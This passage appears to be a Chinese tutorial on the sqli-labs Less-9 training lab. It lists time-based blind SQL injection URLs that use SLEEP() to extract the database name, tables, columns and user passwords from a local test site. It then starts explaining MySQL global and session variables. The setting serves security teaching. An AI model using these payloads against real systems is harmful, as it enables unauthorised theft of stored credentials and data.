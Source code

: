 sqli-labs/Less-9的payload

```mysql
--猜测数据库：
http://127.0.0.1/sqli-labs/Less-9/?id=1'and If(ascii(substr(database(),1,1))=115,1,sleep(5))--+
--说明第一位是s （ascii 码是115）
http://127.0.0.1/sqli-labs/Less-9/?id=1'and If(ascii(substr(database(),2,1))=101,1,sleep(5))--+
说明第一位是e （ascii 码是101）
....
以此类推，我们知道了数据库名字是security
猜测security 的数据表：
http://127.0.0.1/sqli-labs/Less-9/?id=1'and If(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101,1,sleep(5))--+
猜测第一个数据表的第一位是e,...依次类推，得到emails
http://127.0.0.1/sqli-labs/Less-9/?id=1'and If(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 1,1),1,1))=114,1,sleep(5))--+
猜测第二个数据表的第一位是r,...依次类推，得到referers
...
再以此类推，我们可以得到所有的数据表emails,referers,uagents,users
猜测users 表的列：
http://127.0.0.1/sqli-labs/Less-9/?id=1'and If(ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=105,1,sleep(5))--+
猜测users 表的第一个列的第一个字符是i，
以此类推，我们得到列名是id，username，password
猜测username 的值：
http://127.0.0.1/sqli-labs/Less-9/?id=1'and If(ascii(substr((select username from users limit 0,1),1,1))=68,1,sleep(5))--+
猜测username 的第一行的第一位
以此类推，我们得到数据库username，password 的所有内容
以上的过程就是我们利用sleep()函数注入的整个过程，当然了可以离开BENCHMARK()函数进
行注入
```

## 导入导出相关操作的讲解

在了解导入导出相关操作时，先了解以下`Mysql`变量

### mysql变量

mysqld服务器维护两种变量。全局变量影响服务器的全局操作。会话变量影响具体客户端连接相关操作。

服务器启动时，将所有全局变量初始化为默认值。可以在选项文件或命令行中指定的选项来更改这些默认值。服务器启动后，通过连接服务器并执行`SET GLOBAL var_name`语句可以更改动态全局变量。要想更改全局变量，必须具有SUPER权限。

服务器还为每个客户端连接维护会话变量。连接时使用相应全局变量的当前值对客户端会话变量进行初始化。客户可以通过`SET SESSION var_name`语句来更改动态会话变量。设置会话变量不需要特殊权限，但客户可以只更改自己的会话变量，而不更改其它客户的会话变量。

可以通过`SHOW VARIABLES`语句查看系统变量及其值。

```mysql
mysql> SHOW VARIABLES;
```

可以使用like语句来匹配和筛选。
